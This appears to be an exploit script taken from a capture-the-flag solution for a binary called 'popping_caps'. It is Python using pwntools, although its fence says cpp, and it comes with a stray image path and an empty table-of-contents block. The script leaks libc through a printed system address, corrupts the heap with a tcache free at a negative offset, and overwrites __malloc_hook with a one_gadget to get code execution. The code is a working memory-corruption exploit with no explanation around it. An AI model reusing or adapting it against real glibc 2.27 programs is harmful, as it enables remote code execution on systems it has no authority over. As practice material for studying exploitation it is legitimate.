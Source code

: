 ```cpp
    uu32    = lambda data   :u32(data.ljust(4, '\0'))
    uu64    = lambda data   :u64(data.ljust(8, '\0'))
    leak    = lambda name, addr :log.success('{} : {:#x}'.format(name, addr))

    if LOCAL:
        #p = process('./pwn',env={'LD_PRELOAD':'./libc-2.23.so'})
        p = process('./popping_caps')
        e = ELF('/lib/x86_64-linux-gnu/libc-2.27.so')
        # e = ELF('./popping_caps')
        # libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    else:
        p = remote('172.25.87.200', 8000)
        e = ELF('/lib/x86_64-linux-gnu/libc-2.27.so')
        #libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    # lib leak
    ru("Here is system ")
    lib_system = int(rn().strip("\n"), 16)
    libc = lib_system-e.sym['system']
    malloc_hook = e.sym['__malloc_hook']+libc
    one_gadget = libc+0x10a45c

    leak("libc", libc)
    leak("malloc_hook", malloc_hook)
    leak("one_gadget", one_gadget)

    malloc(0x3a8)
    free(0)
    free(-0x210)
    malloc(0xf8)
    write(p64(malloc_hook))
    irt()
    malloc(0x10)
    write(p64(one_gadget))
```

```toc
```